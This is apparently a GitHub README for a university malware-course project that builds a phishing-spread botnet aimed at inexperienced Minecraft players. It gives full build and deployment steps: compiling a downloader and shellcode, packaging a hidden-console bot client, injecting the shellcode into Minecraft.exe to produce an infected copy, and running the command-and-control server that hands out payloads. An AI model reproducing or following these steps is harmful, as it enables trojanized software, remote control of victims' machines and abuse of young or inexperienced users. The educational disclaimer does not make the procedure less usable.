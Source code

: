 # MALW-MinecraftBotnet

MinecraftBotnet is a project develop to create an automated botnet which propagate though phishing emails. The target audience would be unexperienced people that plays Minecraft. This project was develop as Assignment during the Malware's subject of the Master's degree in Cybersecurity (UPC).

> [!CAUTION]
> **DISCLAIMER: This project was done for educational purposes. We are not responsible for the use you give it.**

## Structure

This project was divided in 5 sections that focuses in different aspects of the botnet guts.

1. [API](/API/): Simple webserver API which will provide all available files to be download and also shedule each machine, inside the botnet, to execute the desire tasks.
1. [InfectPE](/InfectPE/): This folder contains a self-version program which allows to inject shellcode into any executable via creating a new section. Original version [InfectPE](https://github.com/secrary/InfectPE).
1. [Malware](/Malware/): Main program that executes in the victim's computer.
1. [Payload](/Payload/): The shellcode script that will be injected into the executable and another c++ script, that will be downloaded by the shellcode, in charge of setting up the malware in victim's computer.
1. [Scripts](/Scripts/): This folder contains the task that is executed by the malware.

## Intruction:

### Compiling shellcode and mainDownloader
Maindownloader:

- `$ cd /Payload`
- `$ gcc -m32 MainDownloader.c -o MainDownloader.exe -lurlmon`
- Now, you can place the generated executable inside [API downloads folder](/API/downloads).


Payload (shellcode):
> `$ cd /Payload`
> `$ ./ShellcodeCompiler_x64.exe -r payload.cpp -a _assembly.asm -p win_x86`
> Inside the generated file `_assembly.asm` you must manually modify the assembly instruction to fix a bug. You must replace the instruction `mov eax, fs:[ecx + 0x30]` with `mov eax, [fs:ecx + 0x30]`.
> `$ nasm -g -f win32 _assembly.asm -o _assembly.o`
> `$ C:/MinGW/bin/ld.exe -g -mi386pe _assembly.o -o _assembly.exe`
>
> `$ objdump -d _assembly.exe`
> - ¡Gitbash required or any alternative! *See tmp.txt file to see the desire output
>
> Paste the .text section inside tmp.txt file
> `$ python dumpShellcode.py tmp.txt`

> [!TIP]
> You can use any other alternative to ouput the shellcode from an excutable.

> [!WARNING]
> We have encounter several errors with the gcc distribution, to compile the MainDownloader we have used the `LLVM` distribution. However, for the shellcode part we have used `MinGW` distribution.

> [!IMPORTANT]
> You will need gcc, gcc for mutiplatform (32 bits) and nasm installed.

### Compiling the tasks
> `$ cd /Scripts`
> `$ python -m PyInstaller --onefile --noconsole times.py`
> Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Compiling the malware
> `$ cd /Malware`
> `$ python -m PyInstaller --onefile --noconsole botScript.py`
> Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Infecting the Minecraft executable
> Paste the shellcode generated previously inside the file `infectPE.cpp` - `char shellcode[] =`.
>
> `$ g++ -c PE.cpp -std=c++17`
> `$ g++ -c InfectPE.cpp -std=c++17`
> `$ g++ -o InfectPE.exe InfectPE.o PE.o`
> `$ ./InfectPE.exe ./Minecraft/Minecraft.exe ./Minecraft/Minecraft_Infected.exe`
> Now, you can place `./Minecraft/Minecraft_Infected.exe` inside [API downloads folder](/API/downloads).

## Running the Botnet server:
Before starting the server, remember to change the IP address depending on how you setup the network or the server itself (you could use directly `0.0.0.0:80`) inside `/API/BotnetAPI.py`.
> `$ cd /API`
> `$ pip install -r requirements.txt`
> `$ python BotnetAPI.py`

> [!IMPORTANT]
> You will need python installed.

> [!TIP]
> Theoretically, you can deploy to docker this API. However, it was not tested for this project.

## Considerations

As the configuration varies from one computer/VM to another, the IP's may vary as well. For that reason, you should replace any IP from the Payload, MainDownloader or Malware scripts.